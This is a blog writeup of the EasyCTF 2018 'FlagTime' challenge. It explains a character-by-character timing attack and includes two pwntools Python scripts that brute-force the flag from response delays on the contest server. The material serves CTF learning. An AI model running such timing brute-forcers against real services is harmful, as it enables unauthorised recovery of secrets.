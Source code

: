 ```yaml
---
layout: post
title: EasyCTF'18 - FlagTime writeup
date: 2018-02-24
categories: ['writeup']
---
```

## Description
> This problem is so easy, it can be solved in a matter of seconds. Connect to _`c1.easyctf.com:12482`_.

<div class="divider"></div>
## Thought process 

So the moment I read the title and description I knew it was something like a [Time-Based Blind SQL Injection](http://www.sqlinjection.net/time-based/){:target="_blank"}  
<br/>
I experimented with different values to see if I could find a pattern ...

* When the character is wrong, the time taken for the reply is short
![wrong](/assets/images/flagtime-1.gif)

* A correct character resulted in a slightly longer delay in the reply (2s)
![right](/assets/images/flagtime-2.gif)

* To test this theory, I tested the first part of the flag   
 *(which is already known as the standard flag format)*
![easyctf{](/assets/images/flagtime-3.gif)
**<u>This took a total of 6 seconds, ~1 second for each correct character</u>**

<div class="divider"></div>
## Scripting time
 I wrote a script to brute force the flag based on a known characterlist:

``` python
#!/usr/bin/python
from pwn import *

#send and receive response
def send_msg(msg):
	conn = remote("c1.easyctf.com",12482)
        conn.recv() #"enter the flag:"
        conn.sendline(msg)
        data = conn.recvuntil('\n')
        if not data.rstrip() == 'no':
		print(data)
		exit()

#returns the time taken for a particular string
def getTime(s):
	sum = 0
	for t in range(3):
		start = time.time()
		send_msg(s)
		diff = time.time() - start
		sum += diff
	sum = sum / 3
	return sum

#easyctf{e@o%
flag = "easyctf{e@o%Kx3b5"   #the flag is built by adding the "winner" of each round
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!@#$%^&*_-=+"
while True:
	
	buff = []

	#pick a new character to try
	for c in chars:
		timeDiff = getTime(flag+c)
		buff.append(timeDiff)

	#get the max of all times
	winner = max(buff)
	i = buff.index(winner)

	#add to flag
	flag += chars[i]
	print ">",flag
		
```
<div class="divider"></div>
### Ups and Downs of life and hacking I suppose :signal_strength:
_Unfortunately the script was not performing as I expected ..._ 

Due to this challenge being hosted in the United States, the script's accuracy was largely affected by **<u>the  fluctuation in RTT</u>** (Round Trip Time).

I left the script to run while working on other challenges and when I checked an hour later I got `easyctf{e@o%Kx3b5` -- basically gibberish :confused:   
  
It breaks because the script only knows how to pick the character which took the longest time. I tried to compensate for the fluctations by taking the average of 3 runs which wasted half a day and didn't help at all.

![rip](/assets/images/flagtime-4.gif)

  
<div class="divider"></div>
### Workaround
I heard others mentioning running their script from a server they rented from _Amazon Web Services_ **[:us: region of course]** so I thought I could do the same, but then I remembered I ran out of free Digital Ocean :ocean: credits and I also didn't want to spend my AWS credits on a challenge like this, so I left the challenge on hold until further notice ...  

|||
| ![img](/assets/images/rollsafe.jpg) | After a good night's rest, it suddenly came to me that EasyCTF did provide their own **<u>shell server</u>** that players could SSH into! Why didn't I think of that sooner ? I revised my current script into a faster version and stuck it into the EasyCTF shell server. |   

<br/>
I was pleasantly surprised to find that their shell server already had the **`pwn`** module pre-installed :hammer_and_wrench: 
   
Setting it up on my machine was quite painful but I did learn that   
`sudo -H pip install --upgrade <package>` solves pretty much everything ~

```python
#!/usr/bin/python
from pwn import *

#send and receive response
def send_msg(msg):
	conn = remote("c1.easyctf.com",12482)
        conn.recv() #"enter the flag:"
        conn.sendline(msg)
        data = conn.recvuntil('\n')
        if not data.rstrip() == 'no':
		print(data)
		exit()

#returns the time taken for a particular string
def getTime(s):
	start = time.time()
	send_msg(s)
	diff = time.time() - start
	return diff

flag = ""  #easyctf{ezx  (not sure if x or _ they seem close)
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!@$_"

while True:
	
	max = 0
	maxChar = None

	#pick a new character to try
	for c in chars:
		timeDiff = getTime(flag+c)
		print flag+c,"->",timeDiff
		if timeDiff > max:
			maxChar = c
			max = timeDiff

	#add to flag
	
	flag += maxChar
	print "====>",flag
```
It still wasn't as fast as I'd like, as the time delay in correct characters increases for each character, it became increasingly difficult to bruteforce.   
<br/>   
 
Based on the length of the characterlist I used: 
* Brute-forcing the first character (0.5 seconds for each reply)  
  would need <u>38 seconds</u> for 1 whole round  
    
* Brute-forcing the 10th character (10 seconds for each reply)  
  would need **<u>12 minutes</u>** for 1 whole round :moyai:  
 
___

<br/>
## Endgame   
So my strategy was to let the script brute force the flag whilst I did trial and error beside it at the same time
![many](/assets/images/flagtime-5.jpg)

Once parts of the flag were uncovered, the rest of the *word* would become trivially guessable **---**  the below example shows variations of *"timing"*  
  
eg. `easyctf{ez_t1m` **->** `easyctf{ez_timing` / `easyctf{ez_t1m1ng`  

In the end the flag was **`easyctf{ez_t1m1ng_4ttack!}`** :checkered_flag:
<div class="divider"></div>
## Things I learnt from this challenge
* How to setup and use the _pwn_ library (for connecting to ports/sockets) 
  
* This type of attack is called **<u>timing attack</u>**  :clock8:
  
* The effect of physical distance between networks that can affect results significantly 
  
 <br/> 
Overall I'm pretty proud that out of 1000-over teams I was one of the first _120_ to solve this challenge, although its a Miscallaneous challenge I definitely got a lot out of it ! 
